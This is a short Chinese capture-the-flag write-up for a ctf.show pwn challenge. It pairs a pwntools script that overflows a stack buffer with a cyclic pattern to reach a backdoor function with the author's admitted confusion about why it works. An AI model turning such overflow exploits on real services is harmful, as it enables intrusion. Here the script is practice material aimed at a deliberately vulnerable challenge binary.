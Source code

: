 # 挑战简介
现在你应该学会了吧

# 思路
简单的题？后门函数有，栈溢出有  

```
from pwn import *
from LibcSearcher import *
context(arch = "amd64",os = 'linux',log_level = 'debug')

#context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show', 28180)

elf = ELF('D:\edge 下载\pwn')

payload = cyclic(0x100)

io.sendline('Yes')

io.recvuntil('Tell me you want: ')

io.sendline(payload)

io.interactive()
```

但其实还是有些不理解，flagishere函数是怎么触发的，只是一个覆盖缓冲区就可以弄出flag
